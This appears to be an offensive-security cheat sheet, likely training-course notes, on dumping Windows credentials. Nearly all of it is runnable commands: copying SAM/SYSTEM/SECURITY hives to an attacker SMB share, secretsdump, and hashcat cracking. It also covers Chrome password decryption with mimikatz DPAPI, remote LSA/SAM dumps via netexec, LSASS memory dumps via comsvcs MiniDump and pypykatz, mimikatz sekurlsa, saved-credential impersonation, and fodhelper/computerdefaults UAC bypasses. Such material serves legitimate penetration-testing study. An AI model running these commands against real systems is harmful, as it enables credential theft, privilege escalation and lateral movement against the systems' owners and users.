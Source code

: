 ```yaml
---
title: Windows Credential Dumping
category: Post-Exploitation
tags: [windows, credential-dumping, lsass, mimikatz, registry, dpapi]
tools: ['secretsdump', 'smbserver', 'mimikatz', 'hashcat', 'pypykatz' ]
---
```

Post-exploitation techniques for extracting credentials on Windows, including registry hive dumping, LSASS memory capture, DPAPI secrets, and Mimikatz usage. Enables escalation and lateral movement.

# Windows Credential Dumping

## Registry Hives

Back up the registry hives as local admin, security hive can contain cached domain creds and other valuable data.

### Copy target hive

````powershell
# Make a copy of the hives
C:\WINDOWS\system32> reg.exe save hklm\sam C:\sam.save
C:\WINDOWS\system32> reg.exe save hklm\system C:\system.save
C:\WINDOWS\system32> reg.exe save hklm\security C:\security.save

# Mount local share on attack box
sudo smbserver.py -smb2support CompData /home/ltnbob/Documents/

# Copy the hives
C:\> move sam.save \\10.10.15.16\CompData
C:\> move security.save \\10.10.15.16\CompData
C:\> move system.save \\10.10.15.16\CompData
````

### Dumping hashes with secretsdump.py

secretsdump.py will extract the system bootkey needed to dump the local SAM hashes.

`````bash
python3 /usr/share/doc/python3-impacket/examples/secretsdump.py -sam sam.save -security security.save -system system.save LOCAL

Dumping local SAM hashes (uid:rid:lmhash:nthash)
`````

### Cracking hashes with Hashcat

Populate retrieved hashes into > hashestocrack.txt
For LM '-m' code see [wiki page](https://hashcat.net/wiki/doku.php?id=example_hashes)

#### Running Hashcat against NT hashes

```bash
# Craacking NT hashes
sudo hashcat -m 1000 hashestocrack.txt /usr/share/wordlists/rockyou.txt
```

#### DCC2 hashes

These are local, hashed copies of network credential hashes.

```bash
hashcat -m 2100 '$DCC2$10240#administrator#23d97555681813db79b2ade4b4a6ff25' /usr/share/wordlists/rockyou.txt
```

### DPAPI - Data Protection Application Programming Interface

```powershell
C:\Users\Public> mimikatz.exe

mimikatz: dpapi::chrome /in:"C:\Users\bob\AppData\Local\Google\Chrome\User Data\Default\Login Data" /unprotect
```

### Remote dumping & LSA secrets

With local admin privlages

```bash
# Dumping LSA secrets remotely
netexec smb 10.129.42.198 --local-auth -u bob -p HTB_@cademy_stdnt! --lsa

# Dumping SAM Remotely
netexec smb 10.129.42.198 --local-auth -u bob -p HTB_@cademy_stdnt! --sam
```

---

## LSASS - Local Security Authority Subsystem Service

LSASS stores credentials that have ***active logon*** sessions on Windows systems.

### Dumping LSASS process memory

There is a GUI method for dumping the Local Security Authority Process with Task Manager.

Determine what process ID (`PID`) is assigned to `lsass.exe`. 

```powershell
# cmd.exe
C:\Windows\system32> tasklist /svc

Image Name                     PID Services
========================= ======== ============================================
System Idle Process              0 N/A
lsass.exe                      672 KeyIso, SamSs, VaultSvc

# PowerShell
PS C:\Windows\system32> Get-Process lsass

Handles  NPM(K)    PM(K)      WS(K)     CPU(s)     Id  SI ProcessName
-------  ------    -----      -----     ------     --  -- -----------
   1260      21     4948      15396       2.56    672   0 lsass

# Create a dump file using PowerShell
PS C:\Windows\system32> rundll32 C:\windows\system32\comsvcs.dll, MiniDump 672 C:\lsass.dmp full
```

Copy the dump over using [this method](#copy-target-hive)

### [Pypykatz](https://github.com/skelsec/pypykatz) to extract credentials

> Mimikatz implementation in pure Python 

```bash
# Extract hashes
pypykatz lsa minidump /home/peter/Documents/lsass.dmp

# Crack NT hashes found
hashcat -m 1000 64f12cddaa88057e06a81b54e73b949b /usr/share/wordlists/rockyou.txt
```

## Windows Vault and Credential Manager

### Enumerating credentials with cmdkey

```cmd
C:\Users\sadams>whoami
srv01\sadams

C:\Users\sadams>cmdkey /list

Currently stored credentials:

    Target: WindowsLive:target=virtualapp/didlogical
    Type: Generic
    User: 02hejubrtyqjrkfi
    Local machine persistence

    Target: Domain:interactive=SRV01\mcharles
    Type: Domain Password
    User: SRV01\mcharles
```

Look for 'interactive=' and execute runas to impersonate the user:

```cmd
C:\Users\sadams>runas /savecred /user:SRV01\mcharles cmd
Attempting to start cmd as user "SRV01\mcharles" ...
```

### Extracting credentials with [Mimikatz](https://github.com/ParrotSec/mimikatz)

Dump credentials from memory using the `sekurlsa` module, or manually decrypt credentials using the `dpapi` module.

May need to bypass UAC if no admin rights, impersonation does not grant admin permissions.

```cmd
# Target the LSASS process with sekurlsa:
C:\Users\Administrator\Desktop> mimikatz.exe

mimikatz # privilege::debug
Privilege '20' OK

# Credential Manager
mimikatz # sekurlsa::credman

# Local passwords and hashes
mimikatz # sekurlsa::logonpasswords
```

Methods for getting passed UAC if no admin access:

```cmd
# fodhelper.exe
reg add HKCU\Software\Classes\ms-settings\shell\open\command /f /ve /t REG_SZ /d "cmd.exe" && start fodhelper.exe

# computerdefaults.exe
reg add HKCU\Software\Classes\ms-settings\Shell\Open\command /v DelegateExecute /t REG_SZ /d "" /f && reg add HKCU\Software\Classes\ms-settings\Shell\Open\command /ve /t REG_SZ /d "cmd.exe" /f && start computerdefaults.exe
```
